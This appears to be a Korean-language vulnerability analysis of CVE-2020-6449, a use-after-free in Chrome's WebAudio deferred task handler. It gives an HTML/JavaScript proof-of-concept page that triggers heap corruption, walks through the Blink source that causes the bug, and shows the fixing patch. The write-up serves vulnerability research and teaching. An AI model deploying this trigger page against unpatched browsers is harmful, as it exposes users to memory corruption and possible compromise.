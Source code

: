 # CVE-2020-6449

## Description

Use after free in audio in Google Chrome prior to 80.0.3987.149 allowed a remote attacker to potentially exploit heap corruption via a crafted HTML page.

## Proof-of-Concept

```JS
<!DOCTYPE html>
<html>
<head>
<script>
function startStop() {
  let audioCtx = new OfflineAudioContext(2,3072,3072);
  let src = audioCtx.createConstantSource();
  src.start();
  src.stop();
  return audioCtx;
}
function onLoad() {
  audioCtx = startStop();
  audioCtx.suspend((3 * 128)/3072.0).then(()=>{
    gc();
    audioCtx.resume();
  });
  audioCtx.startRendering();
}
</script>
</head>
<body onload="onLoad()"/>
</html>
```

## Root Cause Analysis

오디오 렌더링 과정에서 `HandlePreRenderTask`이 호출되며, 이후 다음 순서에 따라 코드가 실행된다.

1. `HandleStoppableSourceNodes()` 호출
2. (Frame )`AudioScheduledSourceHandler::Finish()` 호출
3. `AudioScheduledSourceHandler::FinishWithoutOnEnded` 호출

여기서 `FinishWithoutOnEnded`의 실행은 크게 2가지 결과를 낳는다.

```C++
void AudioScheduledSourceHandler::FinishWithoutOnEnded() {
  if (GetPlaybackState() != FINISHED_STATE) {
    // Let the context dereference this AudioNode.
    Context()->NotifySourceNodeFinishedProcessing(this); // (1)
    SetPlaybackState(FINISHED_STATE); // (2)
  }
}
```


(1) `BaseAudioContext::NotifySourceNodeFinishedProcessing` : `AudioScheduledSourceHandler`를 `finished_source_handlers_`에 추가한다(`vector` 자료형).

```C++
void BaseAudioContext::NotifySourceNodeFinishedProcessing(
    AudioHandler* handler) {
  DCHECK(IsAudioThread());

  GetDeferredTaskHandler().GetFinishedSourceHandlers()->push_back(handler); // AudioScheduledSourceHandler를 finished_source_handlers_에 추가한다
}
```

(2) `AudioScheduledSourceHandler`의 playback state를 `FINISHED_STATE`로 설정한다. 이는 곧 `AudioScheduledSourceNode`가 delete될 수 있음을 의미한다.



따라서, frame에 suspend를 설정하고, main thread에서 `AudioScheduleSourceNode`를 delete하는 것이 가능해지게 된다. (PoC 코드의 24-line)

```JS
  audioCtx.suspend((3 * 128)/3072.0).then(()=>{
    gc(); // delete AudioScheduledSourceNode
    audioCtx.resume();
  });
```

그럼에도 불구하고, `AudioScheduleSourceHandler`가 `BaseAudioContext`의 `active_source_handlers_`에 저장되어 있기 때문에 아직 참조가 0의 값을 가지지 않는다(완전히 free되지 않는다).

```C++
void BaseAudioContext::NotifySourceNodeStartedProcessing(AudioNode* node) {
  DCHECK(IsMainThread());
  GraphAutoLocker locker(this);

  GetDeferredTaskHandler().GetActiveSourceHandlers()->insert(&node->Handler()); // `active_source_handlers_`에 `AudioScheduleSourceHandler`가 추가됨
  node->Handler().MakeConnection();
}
```


하지만, 이후 `BaseAudioContext`가 resume될 때, `DeferredTaskHandler::BreakConnection`가 호출되는데, 해당 함수는 `active_source_handlers_`에 존재하는 `AudioScheduleSourceHandler`를 완전히 삭제하게 되고, 이후 해당 포인터의 사용으로 Use-After-Free가 발생하게 된다.

```C++
void DeferredTaskHandler::BreakConnections() {
  ...
  wtf_size_t size = finished_source_handlers_.size();
  if (size > 0) {
    for (auto* finished : finished_source_handlers_) {
      active_source_handlers_.erase(finished);          //<-- finished is now free'd
      finished->BreakConnectionWithLock();              //<-- UaF
    }
    finished_source_handlers_.clear();
  }
}
```


## Patch

아래 코드와 같이 free 후 해당 객체를 사용하는 것이 아니라, 해당 객체 사용 후, free하게끔 패치되었다.

```diff
--- a/third_party/blink/renderer/modules/webaudio/deferred_task_handler.cc
+++ b/third_party/blink/renderer/modules/webaudio/deferred_task_handler.cc
@@ -78,8 +78,10 @@
   wtf_size_t size = finished_source_handlers_.size();
   if (size > 0) {
     for (auto* finished : finished_source_handlers_) {
-      active_source_handlers_.erase(finished);
+      // Break connection first and then remove from the list because that can
+      // cause the handler to be deleted.
       finished->BreakConnectionWithLock();
+      active_source_handlers_.erase(finished);
     }
     finished_source_handlers_.clear();
   }
```
